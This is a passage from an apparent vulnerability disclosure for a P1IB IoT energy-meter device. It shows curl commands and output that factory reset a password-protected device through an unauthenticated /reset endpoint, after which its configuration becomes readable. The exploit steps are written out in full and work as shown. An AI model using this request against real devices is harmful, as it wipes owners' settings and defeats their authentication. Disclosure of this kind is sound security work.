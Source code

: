 Yes, the device is up-to-date with the latest stable firmware (`f934567`) which
is not vulnerable to P1IB-LABAN-001. We check a special part of the web
application source. It says *Current Installed Firmware*:

```
┌──(user㉿iot)-[~]
└─$ curl --silent http://my-p1ib/ | grep "Current Installed"
            <div class="mdl-cell mdl-cell--3-col">Current Installed Firmware</div>

┌──(user㉿iot)-[~]
└─$ curl --include --ignore-content-length http://my-p1ib/getConfig
HTTP/1.1 401 Unauthorized
Content-Type: text/html
WWW-Authenticate: Basic realm="Login Required"
Content-Length: 0
Connection: close

```

And the device is indeed password protected. But since `/reset` is an
unauthenticated API endpoint we can factory reset all the settings anyway!

```
┌──(user㉿iot)-[~]
└─$ curl --include http://my-p1ib/reset
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 6
Connection: close

reset!

┌──(user㉿iot)-[~]
└─$ curl --include http://my-p1ib/getConfig
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 1667
Connection: close

{"welcome":true,"mqtt_enabled":false,"mqtt_broker_ip":"","mqtt_broker_port":1883,"mqtt_broker_user":"","mqtt_broker_password":"","wifi_password":"","wifi_ssid":"","wifi_custom_ssid_enabled":false,"wifi_custom_ssid":"","wifi_dhcp_enabled":true,"wifi_static_ip":"","wifi_static_netmask":"","wifi_static_gw":"","wifi_static_dns1":"","wifi_static_dns2":"","wifi_retry_timout":60,"wifi_ap_mode_timeout":10,"wifi_tx_limit":44,"eth_enabled":false,"debug_enabled":false,"debug_ip":"","debug_udp_port":8888,"mqtt_json_enabled":false,"mqtt_suffix_enabled":false,"mqtt_cert_enabled":false,"mqtt_cert_rootca":"","mqtt_cert_device":"","mqtt_cert_private_key":"","mqtt_topic_prefix":"","mqtt_ha_auto_discovery_enabled":true,"mqtt_fw_ota_enabled":false,"ntp_server_0":"0.se.pool.ntp.org","ntp_server_1":"1.se.pool.ntp.org","ntp_server_2":"2.se.pool.ntp.org","ota_enabled":false,"rm_enabled":false,"energy_enabled":false,"login_password":"","pp_enabled":false,"pp_token":"","fuse":"16","wifi_bssid":"","transformer_ratio":1,"rm_en_1-0:2.8.0":false,"rm_en_1-0:3.8.0":false,"rm_en_1-0:4.8.0":false,"rm_en_1-0:1.7.0":false,"rm_en_1-0:2.7.0":false,"rm_en_1-0:3.7.0":false,"rm_en_1-0:4.7.0":false,"rm_en_1-0:21.7.0":false,"rm_en_1-0:22.7.0":false,"rm_en_1-0:41.7.0":false,"rm_en_1-0:42.7.0":false,"rm_en_1-0:61.7.0":false,"rm_en_1-0:62.7.0":false,"rm_en_1-0:23.7.0":false,"rm_en_1-0:24.7.0":false,"rm_en_1-0:43.7.0":false,"rm_en_1-0:44.7.0":false,"rm_en_1-0:63.7.0":false,"rm_en_1-0:64.7.0":false,"rm_1-0:64.7.0":"1","rm_en_1-0:32.7.0":false,"rm_en_1-0:52.7.0":false,"rm_en_1-0:72.7.0":false,"rm_en_1-0:31.7.0":false,"rm_en_1-0:51.7.0":false,"rm_en_1-0:71.7.0":false,"rm_1-0:2.8.0":"0.0"}
```
